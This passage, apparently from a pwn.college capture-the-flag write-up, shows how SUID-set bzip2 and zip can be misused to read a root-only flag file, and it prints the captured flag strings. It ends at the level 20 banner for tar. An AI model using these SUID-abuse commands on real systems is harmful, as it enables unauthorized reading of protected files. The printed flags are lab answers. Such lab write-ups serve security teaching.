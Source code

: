 The `bzip2` utility compresses files using the Burrows-Wheeler block sorting text compression algorithm, and Huffman coding.

We can use the `-c` option to print its content to STDOUT. Also, we can use the `-d` option to decompress the `flag.gz` file

```
hacker@program-misuse~level18:/$ bzip2 -c /flag | bzip2 -d
pwn.college{w1Xvr76rk_xB4leFxLepgpgIcqS.0FM2EDL4ITM0EzW}
```

&nbsp;

## level 19

> Forces you to understand different archive formats!

```
hacker@program-misuse~level19:/$ /challenge/babysuid_level19 
Welcome to /challenge/babysuid_level19!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/zip.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level19) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/zip!
```

The `zip` is a compression and file packaging utility for Unix, VMS, MSDOS, OS/2, Windows 9x/NT/XP, Minix, Atari, Macintosh, Amiga, and Acorn RISC OS.

In order to use it, we have to specify a destination file as well.

```
hacker@program-misuse~level19:/$ zip /flag.zip /flag && cat /flag.zip 
PK
�#�X�uJv99flagUT        �#Lf�|<fux
                                  pwn.college{8DPXd8lN7NEudFrIQpNG9hUJaqj.0VM2EDL4ITM0EzW}
PK
�#�X�uJv99�flagUT�#Lfux
                       PKJw
```

&nbsp;

## level 20

> Forces you to understand different archive formats!

```
hacker@program-misuse~level20:/$ /challenge/babysuid_level20 
Welcome to /challenge/babysuid_level20!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/tar.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level20) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tar!
```
